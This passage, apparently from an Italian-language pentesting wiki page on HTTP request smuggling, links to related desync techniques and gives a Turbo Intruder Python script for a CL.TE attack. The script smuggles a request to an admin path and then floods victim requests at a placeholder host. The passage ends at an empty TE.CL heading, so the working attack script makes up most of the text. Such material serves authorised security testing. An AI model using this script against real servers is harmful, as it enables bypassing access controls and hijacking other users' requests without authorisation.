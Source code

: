Hai trovato una vulnerabilità di HTTP Request Smuggling e non sai come sfruttarla. Prova questi altri metodi di sfruttamento:

{{#ref}}
../http-response-smuggling-desync.md
{{#endref}}

### Altre Tecniche di HTTP Request Smuggling

- HTTP Request Smuggling nel Browser (Lato Client)

{{#ref}}
browser-http-request-smuggling.md
{{#endref}}

- Request Smuggling nei Downgrade HTTP/2

{{#ref}}
request-smuggling-in-http-2-downgrades.md
{{#endref}}

## Script Turbo Intruder

### CL.TE

Da [https://hipotermia.pw/bb/http-desync-idor](https://hipotermia.pw/bb/http-desync-idor)
```python
def queueRequests(target, wordlists):

engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Transfer-Encoding: chunked
Host: xxx.com
Content-Length: 35
Foo: bar

0

GET /admin7 HTTP/1.1
X-Foo: k'''

engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)

def handleResponse(req, interesting):
table.add(req)
```
### TE.CL
